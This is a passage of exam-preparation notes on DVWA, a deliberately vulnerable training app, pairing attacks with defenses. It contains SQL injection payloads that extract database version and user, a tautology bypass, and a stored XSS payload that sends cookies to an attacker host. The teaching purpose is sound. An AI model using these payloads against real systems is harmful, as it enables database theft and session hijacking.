$new_sid = md5(time() . $_SERVER['REMOTE_ADDR'] . $_SERVER['HTTP_USER_AGENT']);
$_SESSION['new_sid'] = $new_sid;
```

> [!NOTE]
> **Modern Best Practice:** PHP 7+ provides built-in secure session management. Use `session_regenerate_id(true)` after login and configure `session.cookie_httponly = 1`, `session.cookie_secure = 1`, and `session.cookie_samesite = "Strict"`.

<!-- SECTION_3_END -->

<!-- SECTION_4_START -->
# Structural Diagrams & Schematics

## 1. DVWA Client-Server Request Flow



**Description:** This flowchart illustrates the complete request-response lifecycle in DVWA. The student's browser sends an HTTP request, which Apache receives and forwards to the PHP engine. The PHP layer queries the MySQL database, processes the results, and returns an HTML response to the browser.

## 2. DVWA Security Level Decision Tree



## 3. SQL Injection Attack Flow



## 4. XSS Attack Topology



## 5. DVWA Module Architecture



## 6. Brute Force Attack Sequence Diagram



## 7. DVWA Defense-in-Depth Model



<!-- SECTION_4_END -->

<!-- SECTION_5_START -->
# KTU 2024 Scheme Examination Question Bank & Topic Recap

---

## Part A Questions (3 Marks Each)

### Question 1: Define DVWA. Mention its key features. [3 Marks]
**[KTU University Exam - July 2024] | CO1 | Remember**

**Model Answer:**

Damn Vulnerable Web Application (DVWA) is a PHP/MySQL-based web application that is deliberately designed with multiple security vulnerabilities for educational and research purposes.

**Key Features (3 marks allocated as follows):**
- [Definition: 1 Mark]
- [Mentions 2+ vulnerabilities: 1 Mark]
- [Mentions difficulty levels OR legal use case: 1 Mark]

1. **Open-source** and freely available on GitHub under GPL license.
2. **Multiple difficulty levels**: Low, Medium, High, and Impossible.
3. **Wide vulnerability coverage**: SQL injection, XSS, CSRF, command injection, file inclusion, file upload, brute force, weak session IDs, and insecure CAPTCHA.
4. **Legal and safe environment** for practicing offensive security techniques.
5. **Source code visibility** allowing students to study the exact vulnerable code.

---

### Question 2: What is the difference between reflected XSS and stored XSS? [3 Marks]
**[KTU University Exam - Dec 2023] | CO1, CO2 | Understand**

**Model Answer:**

| Parameter | Reflected XSS | Stored XSS |
|---|---|---|
| **Persistence** | Non-persistent; payload is delivered via the request (URL, form field) and reflected immediately. | Persistent; payload is stored in the database (e.g., comment field, user profile) and served to all visitors. |
| **Delivery Vector** | Crafted URL or form submission. | Database-stored content rendered on page load. |
| **Severity** | Moderate; requires victim to click a malicious link. | High; affects every user who views the infected page. |
| **Example** | Search box that displays the user's query without encoding. | Forum post containing malicious script saved in the database. |
| **Defense** | Output encoding with `htmlspecialchars()`. | Input sanitization + output encoding + Content Security Policy. |

[Tabular comparison: 2 Marks]
[Accurate technical distinction: 1 Mark]

---

## Part B Questions (14 Marks Each — Module Internal Choice)

### Question A (14 Marks)

#### Part (a): Explain the architecture of DVWA with a neat diagram. Discuss the four security levels in detail. [7 Marks]
**[KTU University Exam - July 2024] | CO1, CO2 | Understand**

**Model Answer:**

**DVWA Architecture (3 Marks):**

DVWA follows a **three-tier client-server architecture**:

1. **Client Tier:** A web browser used by the student/attacker to send HTTP requests.
2. **Application Tier:** Apache web server running PHP scripts that implement the vulnerable application logic.
3. **Database Tier:** MySQL/MariaDB that stores user credentials, session data, and challenge flags.

The request flows: $$\text{Browser} \longrightarrow \text{Apache} \longrightarrow \text{PHP} \longrightarrow \text{MySQL}$$

**Four Security Levels (4 Marks):**

[Stating all four levels with description: 2 Marks]
[Correctly explaining the defense mechanism for at least two levels: 2 Marks]

| Level | Description | Defense Mechanism | Exploitation Difficulty |
|---|---|---|---|
| **Low** | No security controls; code is fully vulnerable. | None | Trivial |
| **Medium** | Basic input filtering using `str_replace()`, numeric validation. | Partial input validation | Moderate |
| **High** | Stronger controls; anti-CSRF tokens, regex whitelisting. | Token-based protection | Hard |
| **Impossible** | Industry-standard secure coding. | Prepared statements, `htmlspecialchars()`, PDO, password hashing. | Nearly impossible |

**Conclusion:** The Impossible level demonstrates secure coding practices and serves as the reference standard for defensive programming.

---

#### Part (b): Demonstrate a SQL injection attack on the Low security level. Extract the database version and current user. [7 Marks]
**[KTU University Exam - July 2024] | CO2, CO3 | Apply**

**Model Answer:**

**Step 1: Vulnerability Identification (1 Mark)**

Navigate to: $$\texttt{http://localhost/dvwa/vulnerabilities/sqli/?id=1\&Submit=Submit}$$

The `id` parameter is unfiltered and directly concatenated into the SQL query.

**Step 2: Determine Column Count (1 Mark)**

$$\texttt{?id=1' ORDER BY 2 -- -&Submit=Submit}$$ (succeeds)

$$\texttt{?id=1' ORDER BY 3 -- -&Submit=Submit}$$ (fails, error displayed)

[Correctly using ORDER BY technique: 1 Mark]

Hence, the query returns 2 columns.

**Step 3: UNION Injection to Identify Display Columns (1 Mark)**

$$\texttt{?id=1' UNION SELECT 1,2 -- -&Submit=Submit}$$

The page displays `1` and `2`, confirming both columns are reflected in the output.

[Correct UNION SELECT syntax: 1 Mark]

**Step 4: Extract Database Version and User (2 Marks)**

$$\texttt{?id=1' UNION SELECT version(), user() -- -&Submit=Submit}$$

The response displays:

$$\texttt{Database Version: 10.5.21-MariaDB-1} \quad \vert \quad \texttt{Current User: dvwa@localhost}$$

[Correct payload: 1 Mark]
[Correctly interpreting the output: 1 Mark]

**Step 5: Defense (2 Marks)**

The Impossible level uses **prepared statements**:

```php
$data = $db->prepare('SELECT first_name, last_name FROM users WHERE user_id = (:id) LIMIT 1;');
$data->bindParam(':id', $id, PDO::PARAM_INT);
$data->execute();
```

[Writing prepared statement: 1 Mark]
[Explaining why it prevents injection: 1 Mark]

Prepared statements separate SQL code from user data, making injection structurally impossible.

[Final answer with extracted values: 1 Mark]

---

### Question B (14 Marks) — Alternative Choice

#### Part (a): What is Cross-Site Scripting (XSS)? Explain reflected and stored XSS with examples. [7 Marks]
**[KTU University Exam - Dec 2023] | CO1, CO2 | Understand, Apply**

**Model Answer:**

**Definition (2 Marks):**

Cross-Site Scripting (XSS) is a client-side code injection attack in which an attacker injects malicious scripts into a web page that is then viewed by other users. XSS is classified under **OWASP A03:2021 — Injection**.

[Correct definition: 1 Mark]
[OWASP classification: 1 Mark]

**Reflected XSS (2.5 Marks):**

The injected payload is **reflected off the web server** in the immediate response, typically via URL parameters or form submissions. It is **non-persistent**.

*Example on DVWA:*

$$\texttt{http://localhost/dvwa/vulnerabilities/xss_r/?name=<script>alert(1)</script>}$$

The server reflects the `name` parameter directly into the HTML without encoding, causing the script to execute in the victim's browser.

[Example payload: 1 Mark]
[Explanation of non-persistence: 1 Mark]
[Correct attack scenario: 0.5 Mark]

**Stored XSS (2.5 Marks):**

The injected payload is **stored in the database** (e.g., in a comment field or user profile) and is served to every user who views the infected page. It is **persistent** and more dangerous.

*Example on DVWA:*

The attacker submits a message containing:

$$\texttt{<script>document.location='http://attacker.com/steal?c='+document.cookie</script>}$$

The message is stored in the `guestbook` table. When any user views the guestbook, the script executes, stealing their session cookie.

[Example payload: 1 Mark]
[Explanation of persistence: 1 Mark]
[Correct attack scenario: 0.5 Mark]

**Defense (Bonus):** Use `htmlspecialchars()` with `ENT_QUOTES` flag, implement Content Security Policy (CSP) headers, and sanitize inputs on both client and server sides.

---

#### Part (b): Explain CSRF attack with a suitable example. How is it prevented? [7 Marks]
**[KTU University Exam - Dec 2023] | CO2, CO3 | Understand, Apply**

**Model Answer:**

**Definition (1.5 Marks):**

Cross-Site Request Forgery (CSRF) is an attack that forces an authenticated user to execute unwanted actions on a web application in which they are currently logged in. The attacker tricks the victim's browser into sending a forged HTTP request.

[Correct definition: 1 Mark]
[Classification as state-changing attack: 0.5 Mark]

**Attack Flow (2.5 Marks):**

1. Victim logs into DVWA (session cookie is stored in the browser).
2. Attacker hosts a malicious page on a separate domain.
3. The malicious page contains an auto-submitting form or image tag that targets the DVWA password-change endpoint.
4. The victim's browser, still authenticated, sends the request along with the session cookie.
5. DVWA processes the request as legitimate, changing the victim's password.

[Step-by-step flow: 2 Marks]
[Correct identification of session reuse: 0.5 Mark]

**Example Payload (1 Mark):**

```html

```

**Prevention Mechanisms (2 Marks):**

| Defense | Description |
|---|---|
| **Anti-CSRF Tokens** | Server generates a unique, unpredictable token per session/form. Token is validated on submission. |
| **SameSite Cookies** | Set `SameSite=Strict` to prevent cookies from being sent with cross-site requests. |
| **Referer Header Validation** | Server checks the `Referer` header to ensure the request originated from the same domain. |
| **Re-authentication** | Require the user to enter their current password for sensitive operations (used in DVWA's Impossible level). |
| **CAPTCHA** | Adds a challenge-response step that automated CSRF attacks cannot bypass. |

[Listing 3+ defenses: 1 Mark]
[Brief description of each: 1 Mark]

**Final simplified expression (1 Mark):** CSRF is prevented by ensuring that state-changing requests include a secret, session-specific token that an attacker cannot forge or obtain.

---

## KTU Examiner's Valuation Warning / Pitfall Callout

> [!WARNING]
> **Common Mistakes That Cost Marks:**
> 1. **Forgetting to write the URL and HTTP method:** Always specify the complete payload URL with query parameters when demonstrating injection attacks.
> 2. **Not mentioning the difficulty level:** The KTU examiner expects students to mention which security level (Low/Medium/High/Impossible) the attack applies to.
> 3. **Confusing reflected vs. stored XSS:** Reflected XSS is non-persistent and requires a click; stored XSS is persistent and affects all viewers.
> 4. **Skipping the defense code:** Even in attack-based questions, always include the **secure coding fix** (prepared statements, `htmlspecialchars`, anti-CSRF tokens) for full marks.
> 5. **Writing SQL keywords in lowercase:** While technically valid, KTU examiners expect SQL keywords in **UPPERCASE** (`SELECT`, `UNION`, `WHERE`) for clarity.
> 6. **Not using comments in SQL injection:** Always terminate the original query with `-- -` (comment marker) to prevent syntax errors.
> 7. **Confusing DVWA with WebGoat or bWAPP:** These are **different** intentionally vulnerable applications. Know the distinctions.

---

## Topic Recap & Important Things to Remember

> [!IMPORTANT]
> **Rapid Revision Checklist for DVWA — Module 2: Web Security**

### Core Definitions
- **DVWA:** PHP/MySQL intentionally vulnerable web application for security training.
- **LAMP Stack:** Linux, Apache, MySQL, PHP — the standard deployment environment.
- **OWASP Top 10:** Industry-standard list of web application security risks; DVWA covers most of them.
- **Prepared Statements:** SQL queries where user input is bound as a typed parameter, preventing injection.
- **Output Encoding:** Converting special characters to HTML entities (`<` → `&lt;`) to neutralize XSS.
- **Anti-CSRF Token:** Cryptographically random, session-specific secret used to validate state-changing requests.
- **Tautology:** A logical expression that is always true (e.g., `1=1`), used in SQL injection bypasses.

### Critical Configuration Values
- **Default DVWA Credentials:** `admin` / `password`
- **Default Database Credentials:** `dvwa` / `dvwa`
- **Security Levels:** Low, Medium, High, Impossible
- **PHP Configuration for RFI:** `allow_url_include = On`
- **DVWA GitHub Repository:** `https://github.com/digininja/DVWA`

### Key Formulas and Logic
- **Brute Force Time:** $T = N^k / R$ where $N$ is charset size, $k$ is password length, $R$ is rate.
- **SQL Injection Tautology:** `' OR '1'='1` — always evaluates to TRUE.
- **UNION SELECT Rule:** Column count in injected query must match the original query.
- **Comment Terminator:** `-- -` (SQL) or `/* */` (SQL block comment).

### Attack-to-Defense Mapping (MUST MEMORIZE)
- SQL Injection → Prepared Statements / PDO
- XSS → `htmlspecialchars()` + CSP
- CSRF → Anti-CSRF Tokens + SameSite Cookies
- Command Injection → Input Whitelisting + `escapeshellarg()`
- File Upload → Extension Whitelist + MIME Validation
- Brute Force → Rate Limiting + Account Lockout + CAPTCHA
- LFI/RFI → Page Whitelist + `basename()` + `allow_url_include = Off`
- Weak Session IDs → `random_bytes()` based session tokens

### File Structure to Remember
- Vulnerable source code: `/vulnerabilities/[module]/source/[level].php`
- Security level config: `config/config.inc.php`
- Upload directory (vulnerable): `/hackable/uploads/`
- Setup script: `setup.php`

### Legal & Ethical Points
- Always run DVWA in an **isolated VM** with **no public internet exposure**.
- Unauthorized hacking is a crime under the **IT Act, 2000 (India)** and equivalent laws worldwide.
- DVWA is licensed under **GPL** for educational and research use.
- Never test attacks on real systems without **explicit written authorization**.

### KTU Exam Tips
- Always draw the **architecture diagram** in questions worth 7+ marks.
- Always mention the **OWASP classification** for each vulnerability.
- Always provide **both attack and defense** in your answers.
- Use **technical terminology** (prepared statements, output encoding, parameterized queries) — avoid vague language.
- Practice typing SQL payloads and PHP fixes by hand for the lab exam.

### Quick Reference: Vulnerability Ports and Protocols
- HTTP: Port 80
- HTTPS: Port 443
- MySQL: Port 3306
- SSH: Port 22 (used to manage the DVWA server)
- DVWA Default Web Port: 80 (configurable in Apache)

### One-Line Exam-Ready Definitions
1. **SQL Injection:** Injection of malicious SQL statements into an input field to manipulate the database.
2. **XSS:** Injection of client-side scripts into web pages viewed by other users.
3. **CSRF:** Forced execution of unauthorized actions on a web application via the victim's authenticated session.
4. **Command Injection:** Execution of arbitrary OS commands through unsanitized input.
5. **DVWA:** Intentionally vulnerable web application for legal security training and education.

<!-- SECTION_5_END -->
